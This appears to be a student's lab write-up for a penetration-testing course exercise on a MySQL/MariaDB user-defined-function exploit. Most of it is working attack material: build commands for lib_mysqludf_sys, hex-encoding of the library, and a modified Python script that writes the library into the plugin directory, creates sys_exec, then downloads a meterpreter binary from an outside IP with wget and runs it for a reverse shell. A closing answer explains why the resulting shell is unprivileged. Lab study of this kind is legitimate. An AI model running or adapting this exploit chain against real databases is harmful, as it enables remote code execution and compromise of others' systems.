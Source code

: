 ### 24.5.1.1 Exercises
#### 1. Modify the original Python exploit and capture the reverse shell.

1. Cloned mysql udf exploit from https://github.com/mysqludf/lib_mysqludf_sys.git

   ```bash
   git clone https://github.com/mysqludf/lib_mysqludf_sys.git
   ```

2. Modified makefile of exploit for a mariaDB instance

   ```bash
   gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
   ```

3. Compiled to binary and dumped binary to plain hex format for use in script shellcode, removing the line breaks

   ```bash
   make
   xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_s
   ys.so.hex
   ```

4. Inserted my shellcode into the python script and made other modifications so it would work in our situation where mysql isn't running as root and we are not running the exploit locally:

   ```python
   import sys
   import subprocess
   import platform, random
   import argparse
   import os
   import re
   import pty
   
   ##### Inserted my custom shellcode
   shellcode_x32 = SHELLCODE_FROM_ABOVE
   shellcode_x64 = SHELLCODE_FROM_ABOVE
   
   shellcode = shellcode_x32
   if (platform.architecture()[0] == '64bit'):
    shellcode = shellcode_x64
   
   parser = argparse.ArgumentParser()
   parser.add_argument('--username', '-u', help='MySQL username', type=str, required=True)
   parser.add_argument('--password', '-p', help='MySQL password', type=str)
   
   args = parser.parse_args()
   
   username=args.username
   password=args.password	
   
   if not password:
   	password=''
   	
   cmd='mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select @@plugin_dir \G"'
   plugin_str = subprocess.check_output(cmd, shell=True)
   plugin_dir = re.search('@plugin_dir: (\S*)', plugin_str)
   res = bool(plugin_dir)
   
   if not res:
    print "Error: could not locate the plugin directory"
    os.exit(1);
   	
   plugin_dir_ = plugin_dir.group(1)
   
   print "Plugin dir is %s" % plugin_dir_
   
   udf_filename = 'udf' + str(random.randint(1000,10000)) + '.so'
   udf_outfile = plugin_dir_ + udf_filename
   
   print "Trying to create a udf library...";
   os.system('mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select binary 0x' + shellcode + ' into dumpfile \'%s\' \G"' % udf_outfile)
   ### Removed check for file since we can't check the filesystem remotely
   
   print "UDF library crated successfully: %s" % udf_outfile;
   print "Trying to create sys_exec..."
   os.system('mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "create function sys_exec returns int soname \'%s\'\G"' % udf_filename)
   
   print "Checking if sys_exec was crated..."
   cmd='mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select * from mysql.func where name=\'sys_exec\' \G"';
   res = subprocess.check_output(cmd, shell=True);
   
   if (res == ''):
   	print "sys_exec was not found (good luck next time!)"
   
   if res:
   	print "sys_exec was found: %s" % res
   #### Changed commands to download meterpreter exploit and run it
   	print "Getting meterpreter exploit"
           os.system('mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select sys_exec(\'wget http://192.168.119.216/met.elf\')"')
   	print "Adding execute permissions"        
           os.system('mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select sys_exec(\'chmod +x met.elf\')"')
      	print "Running exploit, it will hang here until meterpreter is closed"
           os.system('mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select sys_exec(\'./met.elf\')"')
   	pty.spawn("/tmp/sh");
   
   ```

5. Ran python script & received reverse shell with meterpreter:

   ![image-20200808192440157](.24.5.1.1.assets/image-20200808192440157.png)

   ![image-20200808192451731](.24.5.1.1.assets/image-20200808192451731.png)

#### 2. The original UDF exploit is advertised as a privilege escalation exploit. Why are we getting an unprivileged shell?

Because the original specifies that mysql must be running as root.  However, this instance is running as the mysql user instead of root.
![image-20200808180612880](.24.5.1.1.assets/image-20200808180612880.png)